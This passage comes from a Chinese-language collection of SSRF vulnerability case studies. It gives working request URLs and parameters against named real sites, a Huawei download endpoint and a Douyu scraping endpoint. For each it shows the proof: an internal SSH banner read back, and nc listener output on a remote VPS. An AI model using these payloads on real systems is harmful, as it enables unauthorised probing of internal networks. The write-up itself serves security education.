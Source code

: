 **漏洞点：**

- 网站
http://hnc.huawei.com/
- SSRF地址
http://hnc.huawei.com/web/downloadAction!download.do?relativePath=http://127.0.0.1:22&fileName=123.txt
- 参数
relativePath


**漏洞证明：**
1.访问 127.0.0.1:22，有直接回显。
http://hnc.huawei.com/web/downloadAction!download.do?relativePath=http://127.0.0.1:22&fileName=123.txt
回显：
SSH-2.0-WeOnlyDo 2.4.3

2.请求远程服务器，远程服务器收到连接。

在此要注意连接的IP是否来自网站服务器。

**总结：**
 这种情况属于 `4. 图片加载/下载`，虽然不是下载图片是下载文件，但是从外部IP获取资源下载的情况下可能存在 SSRF。


## 5. 斗鱼TV某处SSRF漏洞

**漏洞点：**

- 服务器
http://yuba.douyu.com
- SSRF地址
http://yuba.douyu.com/url/scrapy
- 参数, POST
url=http://www.baidu.com

![title](https://leanote.com/api/file/getImage?fileId=5da2c723ab64416721000224)

**漏洞证明：**
在 vps 上开启 nc 监听 8080 端口，收到来自斗鱼网站服务器的连接：
``` shell
nc -l -vv 8080
Connection from 119.90.48.56 port 8080 [tcp/webcache] accepted
GET /?123 HTTP/1.1
Host: 119.29.29.29:8080
Accept: */*
```

**总结：**
1. 这种情况属于`7. 网站采集，网站抓取的地方`。
2. 不要忽视 post 方式，只要有从外部url请求资源的点，都有可能存在 SSRF。

## 6. 有道翻译SSRF可通网易内网
**漏洞点：**

